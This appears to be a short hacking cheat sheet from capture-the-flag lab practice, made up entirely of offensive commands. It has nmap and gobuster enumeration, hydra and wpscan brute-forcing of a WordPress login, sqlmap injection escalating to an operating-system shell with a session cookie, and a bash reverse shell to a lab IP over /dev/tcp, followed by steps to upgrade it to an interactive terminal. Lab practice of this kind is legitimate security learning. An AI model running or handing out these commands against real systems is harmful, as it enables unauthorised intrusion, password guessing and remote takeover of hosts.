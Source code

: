 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#BruteForcing

1. hydra -L fsocity.txt -p mypassword 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

2. hydra -l elliot -P fsocity.txt 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

3. wpscan --url http://10.10.89.214 -t 50 -U elliot -P /home/kali/Documents/tryhackme/mr-robot/fsociety.txt

Sqlmap
1. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"
2. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l" --os-shell


reverse shell
1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"
pty enable
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo
fg
export TERM=xterm




